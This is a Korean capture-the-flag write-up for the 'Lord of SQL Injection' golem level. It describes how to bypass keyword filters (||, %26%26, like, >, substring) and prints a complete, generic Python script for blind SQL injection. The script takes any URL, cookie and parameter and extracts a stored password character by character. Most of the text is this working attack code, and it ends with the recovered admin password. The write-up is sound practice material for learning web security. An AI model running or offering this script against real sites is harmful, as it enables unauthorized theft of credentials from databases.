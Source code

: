 ```yaml
---
title: LOS - 11번 golem
category: Lord of SQL Injection
---
```


# [11] golem

## 문제

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2Fde8A6H%2FbtrniTeLG61%2Fp8roAQzC5qnjr2AfgsXGW1%2Fimg.png">

## 풀이

이번 문제에서는


① or/and

② substr(

③ =


를 필터링하고 있다.

<br>

또한 근본적으로는 pw를 알아야 풀 수 있는 Blind SQLi 문제이다. (∵ addslashes) 

이전에 써먹었던 **자동화 코드**에 **필터링 우회**를 적용해주면 될 것 같다.

<br> 

먼저, 자동화 코드의 **check_length()** 를 다음과 같이 수정해준다.


```python
def check_length(url, cookie, param_name):
    head = {"PHPSESSID":f"{cookie}"}
    print("대상 문자열의 길이를 확인중입니다..")
    for num in range(0,30):
        param=f"?{param_name}=' || id like \"admin\" %26%26 length({param_name})>{num} %23"
        my_url=url+param
        res=requests.get(my_url, cookies=head)
        if("Hello admin" not in res.text):
            return num
```


① or ⇒ \|\|

② and ⇒ %26%26

③ = ⇒ like (문자열 일치 확인)

④ = ⇒ > (ASCII 대소 비교)

- 숫자를 점점 올려가며 비교하기 때문에, 최초로 Hello admin이 뜨지 않는 경우가 곧 아스키가 일치하는 경우이다.

 
<br>
 

다음으로는 **blind_sqli()** 를 다음과 같이 수정해준다.

```python
def blind_sqli(url, cookie, param_name, length):
    head = {"PHPSESSID":f"{cookie}"}
    ans=""
    for len in range(1, length+1):
        print(f"{len}번째 문자에 대해 검색중입니다..")
        for ran in range(32,127):
            param=f"?{param_name}=' || id like \"admin\" %26%26 ascii(substring({param_name},{len},1))>{ran} %23"
            my_url=url+param
            res=requests.get(my_url, cookies=head)
            if("Hello admin" not in res.text):
                print(f"{len}번째 문자 ⇒ {chr(ran)}")
                ans+=chr(ran)
                break
    return ans
```


① or ⇒ \|\|

② and ⇒ %26%26

③ substr( ⇒ substring(

④ = ⇒ like (문자열 일치 확인)

⑤ = ⇒ > (ASCII 대소 비교)

- 마찬가지로, 숫자를 점점 올려가며 비교하기 때문에, 최초로 Hello admin이 뜨지 않는 경우가 곧 아스키가 일치하는 경우이다.

 
<br>
 

**수정된 Python 자동화 코드의 전문**은 다음과 같다.


```python
import requests

def check_length(url, cookie, param_name):
    head = {"PHPSESSID":f"{cookie}"}
    print("대상 문자열의 길이를 확인중입니다..")
    for num in range(0,30):
        param=f"?{param_name}=' || id like \"admin\" %26%26 length({param_name})>{num} %23"
        my_url=url+param
        res=requests.get(my_url, cookies=head)
        if("Hello admin" not in res.text):
            return num

def blind_sqli(url, cookie, param_name, length):
    head = {"PHPSESSID":f"{cookie}"}
    ans=""
    for len in range(1, length+1):
        print(f"{len}번째 문자에 대해 검색중입니다..")
        for ran in range(32,127):
            param=f"?{param_name}=' || id like \"admin\" %26%26 ascii(substring({param_name},{len},1))>{ran} %23"
            my_url=url+param
            res=requests.get(my_url, cookies=head)
            if("Hello admin" not in res.text):
                print(f"{len}번째 문자 → {chr(ran)}")
                ans+=chr(ran)
                break
    return ans

if __name__ == "__main__":
    print("💘 Blind 공격을 시작합니다")
    
    url=input("URL을 입력하세요:")
    cookie=input("cookie를 알려주세요:")
    param_name=input("파라미터의 이름을 알려주세요:")
    
    length=check_length(url, cookie, param_name)
    print(f"👏 {param_name}의 길이는 {length}입니다.")
    
    ans=blind_sqli(url, cookie, param_name, length)
    print(f"👏 {param_name}의 정체는 {ans}입니다!")
    
    exit
```

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FHcecl%2FbtrnkxIU6Hk%2FwUsmDKLf63bp6zlHii4aZ0%2Fimg.png">

Blind 공격 결과, admin의 pw는 `77d6290b` 임을 알 수 있다.

## 결과

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FbHY8zw%2FbtrnkvRSuaC%2FiiZqhAuhNLq6tKpRIWSj20%2Fimg.png">